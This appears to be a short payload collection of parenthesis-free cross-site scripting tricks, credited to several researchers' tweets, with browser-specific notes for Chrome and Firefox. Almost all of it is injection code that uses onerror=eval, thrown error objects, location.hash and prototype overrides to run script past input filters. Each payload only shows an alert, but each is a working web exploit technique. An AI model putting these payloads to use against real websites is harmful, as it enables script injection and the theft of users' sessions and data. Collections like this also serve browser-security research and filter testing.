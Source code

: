 Only Firefox [Garethheyes](https://twitter.com/garethheyes/status/1126922526796468224)
          
    {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:'',message:'alert\x2823\x29'}
---

[ycam](https://twitter.com/ycam_asafety/status/1126976315666706433)

```
example.com/xss#*/;alert(23);
```
```
throw/**/onerror=Uncaught=eval,e={lineNumber:1,columnNumber:1,fileName:'',message:'/*'+location.hash},typeof/**/InstallTrigger!='undefined'?e:e.message
```
---
[cgvwzq](https://twitter.com/cgvwzq/status/1126994744268267527)

[https://demo.vwzq.net/lol.html](https://demo.vwzq.net/lol.html)

```
<script/id=Uncaught>

// chrome + firefox

throw[onerror=eval][e=[x='+alert\x2823\x29']]=0[e.lineNumber=e.columnNumber=e.fileName=e.message=x]=e

</script>

<script>

// firefox

onhashchange=setTimeout,HashChangeEvent.prototype[Symbol.toStringTag]='+alert\x2823\x29',location.hash=1

</script>

<script>

// chrome + firefox

Array.prototype[Symbol.hasInstance]=eval,'alert\x2823\x29'instanceof[]

</script>

<script>

// chrome

[onerror=eval][TypeError.prototype.name='=/']['/-alert\x2823\x29//']

</script>


<script>

// chrome

onerror=eval,ReferenceError.prototype.name='=alert\x2823\x29//',lol

</script>
```

---